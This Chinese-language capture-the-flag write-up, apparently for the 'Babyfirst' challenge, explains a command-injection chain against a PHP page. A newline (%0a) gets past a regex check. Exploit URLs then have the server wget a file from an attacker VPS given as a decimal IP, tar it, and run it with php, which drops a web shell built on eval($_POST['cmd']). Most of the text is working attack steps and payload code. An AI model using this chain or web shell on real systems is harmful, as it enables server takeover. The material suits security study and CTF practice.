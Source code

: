 题目存在几个难点:

1.绕过正则及 /bin/orange 的前缀执行命令

2.写入木马并执行

# 绕过
该问题是正则表达式的一个 trick，`/^\w+$\` 中的 `$` 当遇到字符串的结尾是换行符(%0a)时还是可以匹配。于是就解决了第一个问题，绕过了正则，同时利用换行符得意执行其他命令。
http://ip/?args[]=xxx%0a&args[]=touch&args[]=test

# 写入木马
由于只能传入字母，直接写文件肯定不行，那么只有尝试下载文件了。

## wget 下载
由于 ip 地址的多样性（可参考[IP地址混淆](https://findneo.tech/171125TextualRepresentationOfIPAddress/))，可以使用十进制表示 ip 从而避免使用 `.`。

但又由于 wget 下载不到后台的 php 源码，只能获取 php 解析之后的 html 文件，因此下载之后没有办法直接执行。

## php 执行代码
这里又存在一个知识点：在 Linux 中 PHP 能够执行非压缩的打包的 PHP 文件

如新建 test.php，内容为 `<?php echo "abc">`
执行`tar test test.php`，接着运行 `php test` ，发现输出中包含了 abc

# getshell
于是思路就出来了，先在自己的 vps 上创建一个 index.html。，内容为
```php
<?php
    file_put_contents('shell.php', '
    <?php
    header("Content-Type: text/plain");
    print eval($_POST["cmd"]);
    ?>');
```

接着执行
```shell
http://ip/?args[]=xxx%0a&args[]=mkdir&args[]=exploit   创建exploit文件夹

http://ip/?args[]=xxx%0a&args[]=cd&args[]=exploit%0a&args[]=wget&args[]=vps十进制地址   进入exploit文件夹，下载vps 的 index.html文件。

http://ip/?args[]=xxx%0a&args[]=tar&args[]=cvf&args[]=archived&args[]=exploit 压缩文件夹

http://ip/?args[]=xxx%0a&args[]=php&args[]=archived  执行文件
```

# References
[Babyfirst的分析和解答](https://blog.spoock.com/2017/09/09/Babyfirst-writeup/)